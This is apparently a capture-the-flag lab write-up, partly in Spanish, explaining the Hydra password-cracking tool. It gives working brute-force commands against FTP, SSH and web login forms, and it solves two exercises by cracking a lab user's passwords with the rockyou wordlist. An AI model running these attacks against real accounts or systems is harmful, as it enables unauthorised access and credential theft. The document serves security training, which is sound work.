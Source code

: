 
# What is Hydra?

Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.

Hydra can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

According to its official repository, Hydra supports, i.e., has the ability to brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.”

For more information on the options of each protocol in Hydra, you can check the [Kali Hydra tool page](https://tools.kali.org/password-attacks/hydra).

This shows the importance of using a strong password; if your password is common, doesn’t contain special characters and is not above eight characters, it will be prone to be guessed. A one-hundred-million-password list contains common passwords, so when an out-of-the-box application uses an easy password to log in, change it from the default! CCTV cameras and web frameworks often use admin:password as the default login credentials, which is obviously not strong enough.

## Installing Hydra

Hydra is already installed on the AttackBox. You can access it by clicking on the Start AttackBox button.

If you prefer to use the in-browser Kali machine, Hydra also comes pre-installed, as is the case with all Kali distributions. You can access it by selecting Use Kali Linux and clicking on Start Kali Linux button.

However, you can check its official repositories if you prefer to use another Linux distribution. For instance, you can install Hydra on an Ubuntu or Fedora system by executing:

- **Ubuntu:** `apt install hydra`
- **Fedora:** `dnf install hydra`

Furthermore, you can download it from its official [THC-Hydra repository](https://github.com/vanhauser-thc/thc-hydra).


# Hydra Commands

## Brute Force FTP Example
```bash
hydra -l user -P passlist.txt ftp://MACHINE_IP
```

## Hydra on SSH
```bash
hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh
```
### Options
| Option | Description |
|--------|-------------|
| `-l`   | Specifies the (SSH) username for login |
| `-P`   | Indicates a list of passwords |
| `-t`   | Sets the number of threads to spawn |

**Example:**
```bash
hydra -l root -P passwords.txt MACHINE_IP -t 4 ssh
```
- **`root`** is used as the SSH username.
- Passwords are tried from `passwords.txt`.
- Four threads will run in parallel (`-t 4`).

---

## Hydra on Web Form (POST Method)
```bash
sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"
```

### Options
| Option              | Description                                                                 |
|---------------------|-----------------------------------------------------------------------------|
| `-l`                | The username for (web form) login                                           |
| `-P`                | The password list to use                                                   |
| `http-post-form`    | Specifies the form type as POST                                             |
| `<path>`            | The login page URL, e.g., `login.php`                                      |
| `<login_credentials>` | Login fields, e.g., `username=^USER^&password=^PASS^`                     |
| `<invalid_response>` | Part of the response indicating a failed login attempt, e.g., "incorrect". |
| `-V`                | Verbose output for every attempt                                           |

**Example:**
```bash
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```
- **Login page**: `/` (main page, no specific path).
- **Form fields**: `username` and `password`.
- The string `F=incorrect` appears in the server response for failed login attempts.

 Ejercicio1 Use Hydra to bruteforce molly's web password. What is flag 1?

hydra -l molly -P /usr/share/wordlists/rockyou.txt   10.10.18.174 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V

Ejercicio2 Use Hydra to bruteforce molly's SSH password. What is flag 2?

└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt   10.10.18.174 ssh                                                                                                 
└─$ ssh molly@10.10.18.174    
Poner la pass 
Y buscar la flag
